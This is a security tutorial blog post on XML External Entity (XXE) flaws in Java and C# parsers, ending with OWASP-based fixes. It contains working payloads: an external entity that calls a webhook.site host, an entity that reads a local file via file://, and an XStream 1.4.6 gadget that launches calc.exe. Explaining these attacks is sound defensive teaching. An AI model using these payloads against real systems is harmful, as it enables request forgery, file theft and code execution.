


XML and JSON are two formats ruling the web right now.  
Although JSON's adoption is increasing significantly specially with REST, XML is still widely used.  

What most of developers don't know is that most of the XML parsers out there by following the specification by default have major security flaws. In some cases (not that much) you can even get RCE (Remote Code Execution)

Lets start by the basics and understand the problem.

### Xml Entities

XML by default has what is called an Entity. You can see this as a shortcut, or like a variable. If you need for example, to put the same value in multiple elements you can create an entity, and refer to entity in the elements, like so:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE post [<!ELEMENT post ANY >
  <!ENTITY authorname "Luis Fontes">
]>
<posts>
  <post>
    <author>&authorname;</author>
    <content>...</content>
  </post>

  <post>
    <author>&authorname;</author>
    <content>...</content>
  </post>

  <post>
    <author>&authorname;</author>
    <content>...</content>
  </post>
</posts>
```

In the example above we are telling that the post element will have an entity called authorname. Then we can use that entity in the post as '&authorname;'  
  
This is called an internal entity.

### External Entities

And since we have internal entities we also have external entities.  
External entities get their value from an external source, like so:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE post [<!ELEMENT post ANY >
  <!ENTITY authorname SYSTEM "http://example.com/entities.dtd">
]>
<posts>
  <post>
    <author>&authorname;</author>
    <content>...</content>
  </post>

  <post>
    <author>&authorname;</author>
    <content>...</content>
  </post>

  <post>
    <author>&authorname;</author>
    <content>...</content>
  </post>
</posts>
```

Now we told that the value of the entity authorname comes from <http://example.com/entities.dtd>

And this is the XXE vulnerability.

Since this is from the XML specification, most parsers comply with it, and do the request to the url, to get the values for the entities.  
So with XML XXE, you can do Server Side Request Forgery (SSRF) where you manipulate server requests, Port Scanning, File Disclosure, and sometimes Remote Code Execution (RCE).

#### Attacking External Entities

Lets get our hands dirty and test some scenarios. I'll explain the vulnerability with Java code, and at the end i'll also do a quick overview in C#  

First we need a server to connect to.  
Usually I use netcat to listen on a port and see the requests, but in the last weeks I found an awesome website that receives requests for you, and shows all the content of it. Its the [https://webhook.site/](https://webhook.site/). I'll be using this to receive my requests.

Next we need a vulnerable application. Let's start with this small code:

```java
package com.securitywhitepapers.xxe;

import java.io.File;
import java.io.IOException;
import org.dom4j.Document;
import org.dom4j.DocumentException;
import org.dom4j.io.SAXReader;
import org.jdom2.JDOMException;

public class SaxReader {

    public static void main(String[] args) throws IOException, JDOMException, DocumentException {
      
        SAXReader reader=new SAXReader();
        Document doc=null;
        doc=reader.read(new File("payload.xml"));
        System.out.println(doc.asXML());
        
    }
}
```

This is the simplest piece of code.  
And as you can see we are reading the content of the file called payload.xml, we need that file as well. Use the following xml, save it with the same name, on the projects root folder

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE foo [<!ELEMENT foo ANY >
<!ENTITY bar SYSTEM "https://webhook.site/f0f0f9b4-0845-48f9-9939-aa43558a1529" >]>
<contact>
    <name>Luis Fontes</name>
    <foo>&bar;</foo>
</contact>
````

Now if you run this code, you will notice that a request was made:

[](images/image-1-1024x387.png)

And voilà. We have XXE.  
If you have a webserver that accepts XML files from user, an attacker may be using your webserver to make requests to other websites, for example.

But, as I said this is not all, and you can do other type of attacks, like read files from file system.  
To do that you just need to change the schema to file like so:

´´´xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE foo [<!ELEMENT foo ANY >
<!ENTITY bar SYSTEM "file:///c:/test.txt" >]>
<contact>
    <name>Luis Fontes</name>
    <foo>&bar;</foo>
</contact>
```

And if you look at the output:

[](images/image-2.png)

So we included a local file in the xml.  
This can be leveraged to get other files from the file system, as long as you know the path to the file (and the app opening has permissions to read it).

To get RCE its harder and you need the server application to use PHP. I won't be getting in to details, just check this [link](//gardienvirtuel.ca/fr/actualites/from-xml-to-rce.php) on how it happens.

### XXE in XStream

There is also a known vulnerability in old versions of [XStream](https://x-stream.github.io/security.html) that allows you to do RCE, but this is specific to this library and its not XXE, although its with XML as well . Lets see very quickly how it works.

I used XStream version 1.4.6 to test this, with the following code:

```java
package com.securitywhitepapers.xxe;

import javax.xml.stream.XMLStreamException;

public class XStream {

    public static void main(String[] args) throws XMLStreamException {
        
        com.thoughtworks.xstream.XStream xstream = new com.thoughtworks.xstream.XStream();
        
        //payload to open calc.exe
        String payload = "<sorted-set>" +
                "<string>foo</string>" +
                "<dynamic-proxy>" +
                "<interface>java.lang.Comparable</interface>" +
                "<handler class=\"java.beans.EventHandler\">" +
                " <target class=\"java.lang.ProcessBuilder\">" +
                " <command>" +
                " <string>calc.exe</string>" +
                " </command>" +
                " </target>" +
                " <action>start</action>" +
                "</handler>" +
                "</dynamic-proxy>" +
                "</sorted-set>";

        Contact expl = (Contact) xstream.fromXML(payload);
    }
}
```

And if you run it, you will see a calculator opening. To prevent this you either update XStream to a new version which is the best approach, or you can see a workaround in the official [documentation](https://x-stream.github.io/CVE-2013-7285.html#workaround)

And now how can you fix XXE for the other parsers?

### Preventing External Entities attacks

To prevent this vulnerability we need to disable entities. This is the [recommendation from OWASP](https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.md):

```java
package com.securitywhitepapers.xxe;

import java.io.File;
import java.io.IOException;
import org.dom4j.Document;
import org.dom4j.DocumentException;
import org.dom4j.io.SAXReader;
import org.jdom2.JDOMException;
import org.xml.sax.SAXException;

public class SaxReader {

    public static void main(String[] args) throws IOException, JDOMException, DocumentException, SAXException {
       
        SAXReader reader=new SAXReader();
        
        reader.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
        reader.setFeature("http://xml.org/sax/features/external-general-entities", false);
        reader.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
        reader.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
        
        Document doc=null;
        doc=reader.read(new File("payload.xml"));
        System.out.println(doc.asXML());
    }
}
```

Have in mind that there are multiple parsers for xml in java, each one has its way of parsing files, and its way to prevent it.  
You can find at the end of the article a project's source project **with** multiple parsers, and how to prevent them.

Unmarshaller from java 8 and above is secure by default.

### For C\#

.Net framework disabled the external entities by default in version 4.5.2 so this examples only work with versions bellow.

To fix this issue in XMLDocument you just need to set the XML Resolver to null:

```csharp
using System;
using System.IO;
using System.Xml;

namespace XXEPOC
{
    class Program
    {
        static void Main(string[] args)
        {
            XmlDocument xmlDoc = new XmlDocument();
            String xmlContent = File.ReadAllText("payload.xml");
            xmlDoc.XmlResolver = null;
            xmlDoc.LoadXml(xmlContent);
        }
    }
}
```

### **Test it yourself**

You can get the source code of the project used for this article, with tests for multiple java parsers [here](https://github.com/TheSecurityVault/xxe).

Also I have an opensource tool called [XXExploiter](https://luisfontes19.github.io/xxexploiter/) that you can use to generate the malicious payloads.
